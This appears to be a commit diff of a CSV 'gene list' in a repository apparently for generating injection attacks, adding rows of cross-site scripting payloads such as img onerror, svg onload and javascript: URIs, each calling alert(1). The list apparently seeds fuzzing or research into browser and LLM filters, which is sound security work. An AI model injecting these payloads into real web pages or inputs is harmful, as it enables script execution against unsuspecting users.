

Before and after one commit to selimaynigul/llm-injection-generator, a CSV file: src/gene/gene_list.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/src/gene/gene_list.csv
+++ b/src/gene/gene_list.csv
+row 132: <img src='x' onerror='alert(1)'>
+row 133: <body onload='alert(1)'>
+row 134: <iframe src='javascript:alert(1)'>
+row 135: <div onmouseover='alert(1)'>
+row 136: <input type='text' value='' onfocus='alert(1)' autofocus>
+row 137: <svg/onload=alert(1)>
+row 138: <details open="" ontoggle='alert(1)'>
+row 139: <a href='javascript:alert(1)'>
+row 140: <source onerror='alert(1)'>
+row 141: <form>
```
Also changed, not shown: result/ga_result_llm.csv, result/gan_result_chrome.csv, 8 other files.
